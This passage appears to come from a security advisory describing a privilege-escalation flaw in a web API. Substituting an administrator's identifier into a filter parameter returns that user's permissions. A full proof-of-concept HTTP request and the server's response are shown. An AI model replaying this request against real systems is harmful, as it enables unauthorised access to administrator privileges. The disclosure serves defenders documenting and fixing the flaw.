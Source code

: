         }
    }]
}
```
```
After knowing an identifier of an administrator user, it would be possible to exploit a privilege escalation by replacing or adding the corresponding filter with the administrator's identifier and getting the same privileges:
### Request
```
GET /api/functionalities/allPermissionsFunctionalities?filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ.....
Origin: https:/localhost:3000
Connection: keep-alive
Referer: https:/localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 18:53:00 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 68833
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "meta": {
        "Functionalities": [{
            "functionalityId": 1,
            "permissionId": 1,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.userProfile",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 2,
            "permissionId": 2,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.my_profile",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 3,
            "permissionId": 3,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "layout.change_user_data",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 4,
            "permissionId": 4,